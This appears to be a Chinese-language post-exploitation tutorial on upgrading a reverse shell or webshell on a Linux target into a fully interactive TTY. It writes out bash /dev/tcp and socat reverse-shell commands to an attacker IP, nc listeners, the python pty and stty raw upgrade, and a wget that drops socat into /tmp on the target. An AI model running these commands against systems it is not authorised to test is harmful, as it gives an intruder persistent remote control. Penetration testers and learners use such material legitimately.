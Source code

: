 当我们拿到一个webshell的时候，我们能够执行一些命令，但是这些命令都是非交互的，也就是说不存在上下文的概念。当我们想使用vim、top等命令时，webshell就无能为力了。

那我们怎么获取一个可交互的webshell呢？

## 1. python pty 方式

一般我们都会使用nc来接收反弹来的shell，只需要在目标上(以linux为例)执行：

```bash
bash -i >& /dev/tcp/192.168.2.134/4444 0>&1
```
本地接收一下就ok了，但是反弹回来的shell，或多或少都会存在问题，比如当我想使用top命令时就会提示没有 `tty`。简单的来说就是没有上下文环境，这样的话，``vim``，``sudo``等操作都做不了，有时候还需要其他工具，很麻烦。

```bash
C:\Users\w5023
λ nc -lvvp 4444
listening on [any] 4444 ...
connect to [192.168.2.134] from DESKTOP-IBUUT6H.lan [192.168.2.134] 30688
ubuntu@ubuntu:~$ whoami
whoami
ubuntu
ubuntu@ubuntu:~$ top
top
top: failed tty get
ubuntu@ubuntu:~$ tty
tty
not a tty
```



但是如果发现对方机器上有 python 的话，我们可以：

```
python -c 'import pty; pty.spawn("/bin/bash")'
```

![](https://saucer-man.com/usr/uploads/2019/06/3893556663.png)

可以实现简单的tty，但是这种方式有个问题，当我们ctrl+C的时候，所有连接都会断掉，又需要重新来一遍，而且vim虽然可以用，也有点问题，同时没有记录，无法使用上方向键执行上条命令。

## 2. 升级nc为完全交互

整个流程是在第一步的基础上，但是需要用到的工具在linux上，所以把攻击机切换为linux。

现在攻击机和目标机分别为：

- 攻击机 Linux 192.168.81.160
- 目标机 Linux 192.168.81.162

简单把反弹一个完全交互shell的过程写出来

```bash
# 攻击机本地执行
# 首先检查当前终端和STTY信息
$ echo $TERM      
$ stty -a 
# nc开启监听
$ nc -lvvp 4444
```

![](https://saucer-man.com/usr/uploads/2019/06/9701011.png)

```bash
# 目标机执行
$ bash -i >& /dev/tcp/192.168.81.160/4444 0>&1
```

```bash
# 此时攻击机已经获取到了bash
# 接下来执行
$ python -c 'import pty; pty.spawn("/bin/bash")'  //启用python交互式
# 把它丢到后台挂起
$ ctrl + z   
# 重置stty，也就意味着你看不到输入的内容
$ stty raw -echo  
# 把后台挂起的程序调回前台
$ fg  
# 完全刷新终端屏幕
$ reset  
# 接下来设置环境变量，根据第一步得到的环境变量来设置
$ export SHELL=bash   
$ export TERM=xterm-256color   
$ stty rows 行数 columns 列数  
```

到这里，就可以得到一个完美的shell了。

## 3. 使用socat

socat是类Unix系统下的一个工具，可以看作是 nc 的加强版。我们可以使用socat来传递完整的带有tty的TCP连接。缺点也很明显，**只能在linux下面运行**

下载地址：https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat

使用起来也很简单。

- 攻击机：

  ```bash
  # 首先安装
  $ sudo apt install socat
  # 执行
  $ socat file:`tty`,raw,echo=0 tcp-listen:4444
  
  ```

- 目标机

  ```bash
  # 把socat上传到目标机器上或者直接下载
  $ wget https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat
  # 运行
  $ chmod +x /tmp/socat
  $ /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:192.168.81.160:4444
  ```

这种方式基本和ssh类似，ctrl+C也不会直接断开。

## 4. script获取pty

我们可以使用 Linux 系统下的 `script` 命令，在弹回来的 shell 下创建一个带有 tty 的 shell, 这样就可以勉强使用一下 `top` 和 `vim` :

```bash
$ script /dev/null
```

如果不加 `/dev/null` 的话，会在当前路径下生成一个名字是 `typescript` 的文件，记录着在 script 生命周期里你执行的所有命令和结果。

结果：

```bash
C:\Users\w5023
λ nc -lvvp 4444
listening on [any] 4444 ...
connect to [192.168.2.134] from DESKTOP-IBUUT6H.lan [192.168.2.134] 30567
ubuntu@ubuntu:~$ tty
tty
not a tty
ubuntu@ubuntu:~$ script /dev/null
script /dev/null
Script started, file is /dev/null
ubuntu@ubuntu:~$ tty
tty
/dev/pts/1
```

## 5. 参考

- https://www.freebuf.com/news/142195.html
- http://blog.evalbug.com/2018/07/25/antsword_prompt_shell